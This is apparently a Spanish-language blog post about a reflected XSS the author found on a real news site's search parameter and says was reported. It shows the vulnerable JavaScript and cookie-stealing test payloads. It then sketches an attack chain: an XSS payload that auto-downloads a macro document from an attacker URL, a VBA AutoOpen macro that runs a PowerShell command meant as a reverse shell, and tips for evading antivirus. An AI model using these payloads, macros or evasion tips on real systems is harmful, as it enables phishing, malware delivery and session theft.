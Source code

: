 ```yaml
---
layout: post
title: Simple XSS reflejado en un entorno real
author: c4rta
date: 2023-06-28
##categories: [Maquinas, HackTheBox]
tags: [XSS]
image: 
  path: /assets/img/simple_xss/waifu.gif
---
```


{:.lead}

**Este no es ningun writeup, pero te voy a mostrar como encontre de casualidad una vulnerabilidad ```XSS reflejado``` en un sitio web real, cabe recalcar que la vulnerabilidad ya la reporte, y no estoy promoviendo explotar vulnerabilidades en entornos reales, y simplemente te voy a dar la idea de algo que podria hacer alguien con malas intenciones, que este no es el caso, y espero que el tuyo tampoco**

## XSS reflejado

De acuerdo a port swigger se trata de:

> Surge cuando una aplicación recibe datos en una solicitud HTTP e incluye esos datos en la respuesta inmediata de forma no segura

Es decir que en un XSS reflejado los datos que mándamos por una petición HTTP se reflejan en la respuesta que da el servidor web hacia el cliente (navegador)

Cómo dice OWASP:

> El ataque se lleva a cabo a través de un único ciclo de solicitud/respuesta.

En este tipo de XSS el codigo no reside en la aplicacion web como tal y no se encuentra del lado del servidor, y regularmente un atacante puede incrustar su payload malicioso en la URL generada y enviarselo a la victima, obvio se usa ingenieria social y phishing para que sea mas creible.

## Identificando el XSS

> Evidentemente voy se censurar la URL

**¿Como me di cuenta que era un XSS?**

Fue muy random, originalmente yo solo queria buscar una noticia, entonces use su barra de busqueda para encontrar lo que queria, cuando busque por un termino me di cuenta de la forma tan peculiar de la URL y como se mostraban los datos en la pagina, mira:

![](/assets/img/simple_xss/1.png)

Vean como cuando se realiza una busqueda, te manda a la ruta ```/buscar/``` la cual tiene un parametro de consulta el cual es la ```q```, como se ve en ```?q=c4rta```, asi que el parametro ```q``` es utilizado para especificar el termino que se quiere buscar, y del lado de la pagina web, el termino que busque se refleja en la pagina web

![](/assets/img/simple_xss/2.png)

Esto ya estaba curioso, asi que decidi mostrar el codigo fuente de la pagina cuando se realiza la busqueda, y por suerte encontre la funcion que realiza la busqueda

![](/assets/img/simple_xss/3_000.png)

Primero con:

```js
var searchString = document.getElementById('searchtextsimple').value;
```
Lo que esta haciendo es crear una variable llamada ```searchString``` la cual va a contener el valor del atributo ```value``` del elemento con el id ```searchtextsimple```, y ese elemento con el id es este:

```html
<input id="searchtextsimple" type="text" name="q" class="form-control" placeholder="Buscar" value="c4rta"></input>
```

Despues en el JS tenemos que nuestro input el cual esta guardado en ```searchString``` se le concatena sin ningun tipo de procesamiento ni sanitizacion a la URL a tra vez del parametro ```q```:

```js
var url = "https://<URL>/barebone/wf.template/config.default.master.withgroupcount?q=" + encodeURI(searchString);
```

Y por ultimo carga la URL para mostrarla en la web:

```js
$(".results-group.parent").load(url);
```

Entonces tenemos que nuestro input se guarda en al atributo ```value``` de  la etiqueta ```<input>``` y despues se extrae y se concatena directamente en la URL para luego ser interpretado por el sitio web, la vulnerabilidad es obvia, al yo tener control total de lo que quiero buscar y este sera interpretado, entonces puedo probar por XSS a ver si interpreta codigo de JS, ahora le ingresare esto como input:

```js
<script>alert("Prueba XSS")</script>
```

Y vean como si nos interpreta el JS y ya nos dimos cuenta que tenemos un XSS reflejado

![](/assets/img/simple_xss/4.png)

Y en la URL se incrusto el codigo de XSS

![](/assets/img/simple_xss/5.png)

Podria usar otro payload para obtener las cookies, y curiosamente este sitio web tiene un monton

```js
<script>alert(document.cookie)</script>
```
<center><img src="/assets/img/simple_xss/6.png" width=290px height=200px></center><br>

Evidentemente censure todo por que sale mi cookie de sesion asi como otras muchas, y es posible que hayas pensado que este XSS una vez teniendo la cookie de sesion podria conducir a un CSRF/XSRF, y es correcto mientras sea vulnerable a ello. pero este vez vamos a ir mas alla, por que este XSS lo vamos combinar con malware, mas en concreto algo que se le conoce como ```MalDoc```

## MalDoc

MalDoc viene de Malicious Document, y lo que podria hacer ahora es crear una macro en VBS la cual vamos a incrustar en un docx, donde la macro se ejecutara automaticamente al abrirse el documento, y vamos a aprovechar el XSS para crear un payload que al entrar a la URL vulnerable a XSS, se descargue automaticamente el documento de una URL creada por el atacante, el payload es el siguiente:

```js
<script> 
    var link = document.createElement('a');
    link.href = 'URL:8080/MalDoc.docx';
    link.download = 'MalDoc.docx';
    link.click();
</script>
```

Basicamente el escenario seria que nosotros como atacantes le mandemos a la victima la URL del sitio vulnerable con el payload, la victima abra la URL, se descargue automaticamente el docx, se redireccione al sitio original de la pagina vulnerable, la victima abra el documento que contiene una macro, la macro se ejecute y ejecuta un comando que podria ser una reverse shell

Esto pasaria si la victima abre el link con el payload:

![](/assets/img/simple_xss/7.png)

Vean como la URL tiene el payload, y el entrar al link, se descargar automaticamente el documento del sitio web del atacante, en este caso, es un servidor web que cree con python y que tiene mi IPv4.

Y entonces al abrirlo se deberia de ejecutar la macro con la reverse shell, pero ¿Como se crea la macro?, bueno, el msfvenom ya tiene modulos para crear un MalDoc y una macro maliciosa, pero estamos aprendiendo, hay que hacerlo manual, simplemente de voy a dar la idea, no lo voy a poner a prueba.

Podriamos crear un archivo VBS de esta manera:

```vb
Sub AutoOpen()
Comando_Ps = "el tipico oneliner de powershell"

Dim Shell As Object
Set Shell = CreateObject("Wscript.Shell")
Shell.Run (Comando_Ps)

End Sub
```

Basicamente lo que va a hacer es ejecutar un comando de powershell que se declare en la variable ```Comando_Ps``` a tra vez de un objeto ```Wscript.Shell```

Y ahora para incrustarla en el docuemento se puede hacer uso de ```Microsoft Visual Basic for Applications``` y guardar el documento con la macro.

Y seguramente diras: "Eso no evade ningun antivirus, y el defender lo va a detectar", y en efecto, asi que te dare unos tips

- Usa Invoke-Obfuscation
- Usa procesos VMI
- Usa StrRerverse() para agregar un poco mas de ofuscacion
- Usa WMI Win32_PingStatus para evadir sandboxes

(Estas tecnicas que acabe de mencionar, como lo de MalDoc con la macro y las tecnicas para evadir antivirus pienso dedicarles un post aparte)

> Recuerda que la vulnerabilidad ya esta reportada, y no estoy promoviendo la creacion de malware ni tampoco el explotar vulnerabilidades sin el permisos de otros, es meramente educativo e informativo.

Eso ha sido todo, gracias por leer ❤